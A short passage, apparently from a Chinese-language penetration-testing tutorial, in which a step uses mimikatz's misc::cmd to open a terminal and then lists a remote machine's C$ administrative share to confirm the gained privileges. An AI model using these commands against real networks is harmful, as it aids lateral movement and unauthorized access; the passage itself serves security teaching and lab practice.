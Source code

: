 [![](assets/1706958938-c04ff0baf47757a32e07ef842048a73b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312053-335059167.png)

#### 3、开启当前权限的管理员终端

使⽤ mimikatz 的 `misc::cmd` 模块，打开打开⼀个新窗⼝验证我们当前权限。

```plain
misc::cmd
dir \\192.168.126.10\c$
```

[![](assets/1706958938-f515cb41992cfaa4a58b659b0a516c9e.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312626-1339677555.png)
